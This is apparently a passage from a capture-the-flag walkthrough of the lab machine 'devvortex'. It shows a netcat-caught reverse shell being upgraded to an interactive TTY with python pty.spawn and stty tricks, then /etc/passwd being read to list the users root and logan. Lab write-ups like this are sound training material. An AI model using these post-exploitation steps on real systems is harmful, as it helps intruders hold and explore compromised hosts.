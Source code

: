 ```bash
$ echo $TERM

$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@devvortex:/$ echo $TERM
echo $TERM
dumb
www-data@devvortex:/$ ^Z
[1]  + 219973 suspended  nc -lnvp 9999
[please@ruby]:[~] $ echo $TERM; stty -a                                                                                                                       148 ↵
tmux-256color
speed 38400 baud; rows 74; columns 164; line = 0;
intr = ^C; quit = ^\\; erase = ^?; kill = ^U; eof = ^D; eol = <undef>; eol2 = <undef>; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W;
lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc -ixany -imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
[please@ruby]:[~] $ stty raw -echo;fg
[1]  + 219973 continued  nc -lnvp 9999
                                      reset
reset: unknown terminal type unknown
Terminal type? tmux-256color
www-data@devvortex:/$ export SHELL=zsh
www-data@devvortex:/$ export TERM=tmux-256color
www-data@devvortex:/$ stty rows 74 columns 164
```

Now `cat`’ing out `/etc/passwd`, we see that there are two users with login shells - `root` and `logan`.

```bash
www-data@devvortex:/$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```